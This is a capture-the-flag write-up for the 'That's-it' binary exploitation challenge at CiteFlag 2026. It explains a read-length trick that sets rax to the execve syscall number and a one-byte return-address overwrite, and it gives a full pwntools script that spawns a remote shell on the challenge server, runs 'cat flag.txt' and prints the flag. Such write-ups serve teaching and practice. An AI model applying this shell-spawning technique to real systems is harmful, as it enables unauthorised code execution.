# That's-it

## Competition Information
**Event:** CiteFlag 2026  
**Category:** Binary Exploitation (Pwn)  
**Difficulty:** Hard  
**Author:** Omar Ahmed  

---

## Objective

The objective of this challenge was to exploit a remote binary by manipulating register states and overwriting the return pointer to gain a shell. Success required bypassing a cryptographic Proof of Work (PoW) mechanism and performing a precise partial return address overwrite to trigger an `execve` syscall.

---

## Tools Used

- `strings` (Initial binary inspection)
- `binwalk` (File extraction)
- `pwntools` (Exploit development)
- ChatGPT (Debugging and syntax review)

---

# Investigation & Methodology

## Step 1 - Initial Reconnaissance & Rabbit Holes





The first step was downloading and organizing the challenge files. During inspection, I noticed the filename `that's-it(1).zip`. Initially, I suspected that the `(1)` could indicate hidden content, but it was only a duplicate file created by the browser.



Using basic analysis tools such as `strings`, no immediate secrets were revealed. One extracted file named `flag` appeared suspicious, so I tested it with `binwalk` to search for hidden data. However, this was a deliberate distraction designed to mislead participants.





Further inspection revealed a looping `0.zip` file, which was identified as a zip bomb. After avoiding this trap, the included `netcat` instructions confirmed that this was not a local forensics challenge. The actual objective was remote binary exploitation.

---

## Step 2 - Binary Analysis





After identifying the challenge type, I analyzed the binary structure and searched for useful instruction sequences.

A critical gadget was discovered that allowed control over system call execution. The important memory location ended with `29db4`, which later became the target address for redirecting execution flow.

---

## Step 3 - Exploit Development





The provided exploit skeleton was empty, so I developed a custom Python exploit using the `pwntools` framework.

The first challenge was solving the server-side Proof of Work requirement automatically. The provided `pow_solver` binary was integrated into the exploit script to generate the correct response before sending the payload.

The main exploitation technique relied on abusing the `read` syscall:

1. **Controlling `rax`**

   The read length was set to exactly `59`. Since `read` returns the number of bytes read in `rax`, this allowed the register to contain `59`, which matches the x86-64 syscall number for `execve`.

2. **Early Termination**

   Only 25 bytes were provided. Although the program expected 59 bytes, the input ended early while preserving the required `rax` value.

3. **Payload Structure**

   The payload consisted of:

   - `/bin/sh\x00`
   - 8 bytes of null padding
   - 8 bytes of junk padding
   - `\xb4` for the partial overwrite

4. **Execution Hijacking**

   The final byte overwrote the least significant byte of the return address. This redirected execution to the previously identified syscall gadget ending in `...29db4`.

   Since `rax` was already set to `59`, the gadget executed `execve("/bin/sh", ...)` and spawned a shell.

---

## Step 4 - Debugging & Execution





During testing, the exploit initially failed because of an incorrect IP address.

The mistake was:

34.175.139.168

instead of:

34.175.130.168

After correcting the address, the exploit successfully:

- solved the Proof of Work,
- bypassed the protections,
- redirected execution,
- obtained a shell,
- retrieved the final flag.

---

# Exploit Script

```python
from pwn import *
import subprocess
import time

context.arch = 'amd64'

def solve_pow(prefix, diff):
    p = subprocess.run(
        ['./pow_solver', prefix, str(diff)],
        capture_output=True,
        text=True
    )
    return p.stdout.strip()

def run_exploit():

    r = remote('34.175.130.168', 1337)

    r.recvuntil(b'Prefix: ')
    prefix = r.recvline().strip().decode()

    r.recvuntil(b'Difficulty: ')
    diff = int(r.recvline().strip().decode())

    log.info(f"Solving PoW for {prefix}")

    suffix = solve_pow(prefix, diff)

    r.sendlineafter(
        b'Suffix: ',
        suffix.encode()
    )

    r.sendlineafter(
        b'send name length: ',
        b'59'
    )

    payload = b'/bin/sh\x00'
    payload += b'\x00' * 8
    payload += b'B' * 8
    payload += b'\xb4'

    r.sendafter(
        b'send name: ',
        payload
    )

    time.sleep(0.5)

    try:
        r.sendline(b'id')

        result = r.recvline(timeout=1)

        if b'uid' in result:
            log.success("Shell obtained")

            r.sendline(b'cat flag.txt')

            print(
                r.recvall(timeout=2).decode()
            )

    except EOFError:
        pass

    r.close()


if __name__ == "__main__":
    run_exploit()
Flag

# CITEFLAG{7h3_0n3_wh0_1nv0k3d_m3_15n7_7h47_3mp7y_4f73r_4ll}

*Lessons Learned*

*Binary Exploitation:
-This challenge demonstrated how register manipulation and return address overwrites can be combined to achieve code execution.

*Proof of Work Automation:
-Automating challenge barriers improves exploit reliability and reduces manual effort.

*Partial Pointer Overwrites:
-A single-byte overwrite can redirect execution when the target address is carefully selected.

*Syscall Control:
-Understanding Linux x86-64 syscall conventions was essential for transforming the controlled state into an execve shell.

*Debugging Discipline:
-Small configuration mistakes, such as an incorrect IP address, can completely prevent a working exploit from executing.